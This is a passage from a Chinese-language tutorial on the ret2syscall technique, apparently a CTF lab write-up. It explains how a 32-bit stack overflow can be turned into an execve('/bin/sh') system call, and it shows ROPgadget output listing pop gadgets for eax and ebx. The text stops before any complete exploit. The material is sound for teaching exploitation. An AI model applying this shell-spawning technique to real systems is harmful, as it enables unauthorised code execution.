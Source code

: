可以看出此次仍然是一个栈溢出。类似于之前的做法，我们可以获得 v4 相对于 ebp 的偏移为 108。所以我们需要覆盖的返回地址相对于 v4 的偏移为 112。此次，由于我们不能直接利用程序中的某一段代码或者自己填写代码来获得 shell，所以我们利用程序中的 gadgets 来获得 shell，而对应的 shell 获取则是利用系统调用。关于系统调用的知识，请参考

- https://zh.wikipedia.org/wiki/%E7%B3%BB%E7%BB%9F%E8%B0%83%E7%94%A8

简单地说，只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell

```C
execve("/bin/sh",NULL,NULL)
```

其中，该程序是 32 位，所以我们需要使得

- 系统调用号，即 eax 应该为 0xb
- 第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
- 第二个参数，即 ecx 应该为 0
- 第三个参数，即 edx 应该为 0

而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了pop eax，那么现在 eax 的值就为 10。但是我们并不能期待有一段连续的代码可以同时控制对应的寄存器，所以我们需要一段一段控制，这也是我们在 gadgets 最后使用 ret 来再次控制程序执行流程的原因。具体寻找 gadgets的方法，我们可以使用 ropgadgets 这个工具。

首先，我们来寻找控制 eax 的gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
```

可以看到有上述几个都可以控制 eax，我选取第二个来作为 gadgets。

类似的，我们可以得到控制其它寄存器的 gadgets

```shell
➜  ret2syscall ROPgadget --binary rop  --only 'pop|ret' | grep 'ebx'
0x0809dde2 : pop ds ; pop ebx ; pop esi ; pop edi ; ret
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0805b6ed : pop ebp ; pop ebx ; pop esi ; pop edi ; ret
0x0809e1d4 : pop ebx ; pop ebp ; pop esi ; pop edi ; ret
0x080be23f : pop ebx ; pop edi ; ret
0x0806eb69 : pop ebx ; pop edx ; ret
0x08092258 : pop ebx ; pop esi ; pop ebp ; ret
0x0804838b : pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x080a9a42 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x10
0x08096a26 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0x14
0x08070d73 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 0xc
0x0805ae81 : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 4
0x08049bfd : pop ebx ; pop esi ; pop edi ; pop ebp ; ret 8
0x08048913 : pop ebx ; pop esi ; pop edi ; ret
0x08049a19 : pop ebx ; pop esi ; pop edi ; ret 4
0x08049a94 : pop ebx ; pop esi ; ret
0x080481c9 : pop ebx ; ret
0x080d7d3c : pop ebx ; ret 0x6f9
0x08099c87 : pop ebx ; ret 8
0x0806eb91 : pop ecx ; pop ebx ; ret
0x0806336b : pop edi ; pop esi ; pop ebx ; ret
0x0806eb90 : pop edx ; pop ecx ; pop ebx ; ret
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x0806eb68 : pop esi ; pop ebx ; pop edx ; ret
0x0805c820 : pop esi ; pop ebx ; ret
0x08050256 : pop esp ; pop ebx ; pop esi ; pop edi ; pop ebp ; ret
0x0807b6ed : pop ss ; pop ebx ; ret
```
